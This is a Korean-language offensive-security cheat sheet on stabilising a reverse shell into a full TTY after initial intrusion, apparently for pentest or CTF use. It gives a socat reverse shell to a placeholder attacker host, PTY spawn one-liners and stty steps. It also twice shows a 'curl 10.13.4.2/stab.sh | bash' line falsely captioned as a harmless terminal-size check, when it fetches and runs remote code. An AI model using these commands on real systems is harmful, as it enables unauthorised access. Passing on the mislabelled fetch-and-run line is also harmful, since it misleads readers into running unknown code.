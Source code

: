 

# TTY 셸 안정화 가이드

리버스 셸 등으로 시스템에 처음 접속하면, 일반적으로 기능이 매우 제한적인 'Dumb Shell' 상태가 됩니다. 이 상태에서는 `Tab` 자동 완성, 명령어 히스토리, `Ctrl+C`를 통한 프로세스 중단 등이 동작하지 않아 정상적인 작업이 어렵습니다. 

이 문서는 Dumb Shell을 완전한 기능의 TTY(Teletype) 셸로 업그레이드하는 단계별 절차를 안내합니다. 이 작업은 **초기 침투 후 가장 먼저 수행해야 할 필수 과정**입니다.

---

### **Pretty colors**
```bash
# shell stabilization (pretty colors :))
cat /etc/shells
PS1='[\[\e[31m\]\u\[\e[96m\]@\[\e[35m\]\H\[\e[0m\]:\[\e[93m\]\w\[\e[0m\]]\$ '
```

---


### **1단계: PTY Shell 생성 (기본 업그레이드)**

가장 먼저, Python(또는 다른 스크립트 언어)을 이용해 기본적인 PTY(Pseudo-Terminal)를 생성합니다. 이것만으로도 셸의 기능이 일부 개선됩니다.

```bash title="Python을 이용한 PTY 셸 생성"
# 시스템에 설치된 Python 버전에 맞게 시도
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
```

> **팁:** 만약 Python이 없다면 `script` 명령어나 다른 언어(perl, ruby)를 활용할 수 있습니다.


`script` : 보통 리눅스에 기본 설치 되어 있음.
```bash
script /dev/null -c /bin/bash
# 또는
script -qc /bin/bash /dev/null
```

`socat` : `socat`이 설치되어 있다면 가장 강력하고 안정적인 셸을 얻을 수 있음. 공격자 PC에서 리스너를 열고, 타겟 서버에서 접속하는 방식.
```bash title="Attacker_Kali (리스너)"
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

```bash title="Target (접속)"
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:4444
```

`기타 스크립트 언어` 
```bash
# Perl
perl -e 'exec "/bin/sh";'

# Ruby
ruby -e 'exec "/bin/sh"'
```

---


### **2단계: Shell 환경 완전 안정화 (Full TTY Stabilization)**

PTY 셸을 생성한 후, 다음 절차를 통해 로컬 터미널과 동일한 환경으로 만듭니다.

#### **[1] 셸을 백그라운드로 전환**
- 현재 PTY  Shell에서 `Ctrl+Z`를 눌러 Shell을 잠시 백그라운드로 보냅니다.

#### **[2] 로컬 터미널 환경 설정**
- 공격자(로컬) 머신에서 다음 명령어를 입력하여 터미널을 'raw' 모드로 설정하고, 백그라운드의 셸을 다시 포어그라운드로 가져옵니다.

```bash(title="공격자 머신 (Kali)")
# 현재 터미널의 특수 문자 처리를 비활성화하고(raw), 입력 문자를 화면에 바로 표시하지 않도록(-echo) 설정
stty -a
stty raw -echo; fg
```

- `fg` 명령어를 입력하고 엔터를 두 번 정도 치면, 백그라운드에 있던 원격 Shell이 다시 활성화됩니다.

#### **[3] 원격 셸 환경 변수 설정**
- 이제 원격 셸은 안정화되었지만, 터미널 크기나 종류가 제대로 설정되지 않아 화면 출력이 깨질 수 있습니다. 다음 명령어로 환경을 최종 설정합니다.

```bash(title="원격 셸 (Target)")
# 터미널 종류를 xterm-256color로 설정 (가장 일반적)
export TERM=xterm-256color

# 로컬 터미널과 동일한 줄(rows)과 칸(cols) 크기로 설정
stty rows 38 cols 115
```

> **팁:** 로컬 터미널의 크기는 새 터미널을 열고 `stty -a` 명령어로 확인할 수 있습니다.

```bash title="this checks ur rows and columns in ur current shell"
curl 10.13.4.2/stab.sh | bash
```

---


### Shell 환경 개선

기본 셸(`sh`, `ash`)은 기능이 부족함. `bash`나 `zsh`가 설치되어 있는지 확인하고, 있다면 바로 실행하여 더 나은 환경에서 작업하는 것이 효율적.
```bash
# bash가 있는지 확인하고 실행
which bash && /bin/bash

# zsh가 있는지 확인하고 실행
which zsh && /bin/zsh
```

---

```bash title="this checks ur rows and columns in ur current shell"
curl 10.13.4.2/stab.sh | bash
```

### **최종 확인**

모든 과정이 완료되면, 이제 원격 셸에서 다음과 같은 기능들이 정상적으로 동작합니다:
- **명령어 히스토리:** 위/아래 화살표 키
- **자동 완성:** `Tab` 키
- **프로세스 중단:** `Ctrl+C`
- **화면 정리:** `clear` 명령어
- **인터랙티브 프로그램 실행:** `su`, `ssh`, `vim` 등

